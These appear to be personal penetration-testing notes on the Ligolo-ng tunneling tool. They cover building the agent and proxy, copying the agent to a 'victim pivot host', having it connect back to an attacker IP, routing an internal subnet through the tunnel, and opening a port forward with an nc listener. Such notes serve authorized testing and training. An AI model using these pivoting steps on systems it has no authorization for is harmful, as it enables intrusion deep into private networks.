 INIT
# Ligolo-ng
## Installation
``` 
git clone https://github.com/nicocha30/ligolo-ng
``` 
### Build the binary
#### Agent
``` 
go build -o agent cmd/agent/main.go
```
For Windows binary:
```
GOOS=windows go build -o agent.exe cmd/agent/main.go
```
#### Proxy
```
go build -o proxy cmd/proxy/main.go
``` 
For Windows binary:
```
GOOS=windows go build -o proxy.exe cmd/proxy/main.go
```
### Setup 
```bash
sudo ip tuntap add user <username> mode tun ligolo
sudo ip link set ligolo up
```
#### Set up Proxy
```
./proxy -autocert
``` 
##### Another option 
Setup w/ self cert and use `-laddr` to bypass firewall (potentially)
```
./proxy -selfcert -laddr 0.0.0.0:443
``` 
### Send the agent to the victim pivot host 
```
scp ./agent <user>@<pivotIP>:/absolute/path
```
OR
``` 
./agent -connect <AttackIP>:11601
``` 
in the ligolo c2 
``` 
ligolo-ng >> session ? Specify a session : 1 - <usr>@<hostname> - XX.XX.XX.XX:38000
``` 
once specified, we can see their configuration 
``` 
[Agent : <usr>@<hostname>] >> ifconfig 
┌────────────────────────────────────┐ 
│ Interface 0 │ 
├──────────────┬─────────────────────┤ 
│ Name │ lo │ │ Hardware MAC │ │ │ MTU │ 65536 │ │ Flags │ up|loopback|running │ │ IPv4 Address │ 127.0.0.1/8 │ │ IPv6 Address │ ::1/128 │ └──────────────┴─────────────────────┘ 
```
in a new terminal 
```
sudo ip route add 192.168.0.0/24 dev ligolo
```
back in the ligolo c2 
```
[Agent : <usr>@<hostname>] >> start
```
your good to go 
```
ping 192.168.110.55
```
### Agent Binding/Listening
in the ligolo session use the `listener_add` command 
``` 
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```
```
nc -lvnp 4321
```
remove with 
```
listener_list listener_stop 0
```
## remove ligolo interface 
```
sudo ip link delete ligolo
```

> [!Resources]
> - [Ligolo-ng Docs](https://docs.ligolo.ng/)